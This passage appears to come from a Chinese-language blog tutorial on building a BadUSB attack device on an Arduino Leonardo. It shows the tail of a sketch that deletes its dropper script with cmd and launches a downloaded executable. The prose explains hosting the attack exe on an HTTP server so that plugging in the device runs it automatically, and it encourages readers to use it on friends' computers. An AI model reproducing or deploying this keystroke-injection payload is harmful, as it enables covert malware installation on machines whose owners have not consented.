   delay(8000);
  guirun("cmd /c del guirun.vbs");
  delay(1000);
  guirun("cmd /c start xx.exe");
  delay(1000000);
}
void loop()
{
}</pre>

我们使用改写过的代码编译上传，并且在http服务器中存放好用于攻击的exe文件，插上我们的BadUSB后，便会自动实施攻击。用这个BaD设备去捅你的小伙伴的电脑吧！

但是目前这种改写只能适用于简单的脚本。如果生成内嵌payload的teensy脚本则很难改写。正在尝试将teensy的库移植到leonardo上。目前基本完成但尚未测试。测试通过后会发布出来。目前也正在尝试群联某方案上的攻击漏洞。期末考完试后考虑做一款内置储存的BadUSB设备。理论上比普通U盘贵30-40元左右。